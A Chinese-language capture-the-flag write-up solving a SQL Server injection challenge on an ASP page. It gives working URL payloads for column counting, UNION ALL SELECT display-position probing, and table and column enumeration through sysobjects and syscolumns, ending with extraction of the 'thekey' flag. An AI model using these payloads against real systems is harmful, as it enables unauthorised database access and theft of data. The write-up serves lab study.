   是个SQLSERVER注入题

  1.1 确定字段数
  `http://ip/show.asp?id=2%20%20order%20by%204`

  `order by 5`的时候报错，`order by 4`的时候显示正确,字段数为4。

  1.2 确定显示位

  这出现一些问题，一开始使用的语句是:

  `http://ip/show.asp?id=2%20and%201=2%20union%20select%201,2,3,4`

  结果没有按照预期想得一样出现显示位，而是提示

  ```
  Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
  操作数类型冲突: ntext 与 int 不兼容
  /show.asp，行 17
  ```

  说明格式对应不上，修改成

  ` http://ip/show.asp?id=2%20and%201=2%20union%20all%20select%20null,null,null,null`

  在`union`后面添加`all`，用null替代数字。再分别测试，得知显示位为2和3,2是数字型，3是字符串型

  ![sql_union_select_1,2,'3'](imgs/sql_union_select_1,2,'3'.png)

  1.3 确定库名及表名

  使用`db_name()`得到库名为`tourdata`

  接着查看用户表有哪些

  `http://ip/show.asp?id=2%20and%201=2%20union%20all%20select%20null,(select top 1 name from sysobjects where Xtype='U' and id not in (select top 0 id from sysobjects where Xtype='U')),null,null`

  修改top 0 的值，得到两个表`dbproperties`、`news`

  1.4 确定表中的字段名

  `select top 1 name from syscolumns where id=(select id from sysobjects where Xtype='U' and name='news')and name not in (select top 0 name from syscolumns where id=(select id from sysobjects where Xtype='U' and name='news'))`

  这部分比较麻烦，最后得到字段名称`bt`、`id`、`nr`、`thekey`

  1.5 得到thekey

  `select thekey from news`
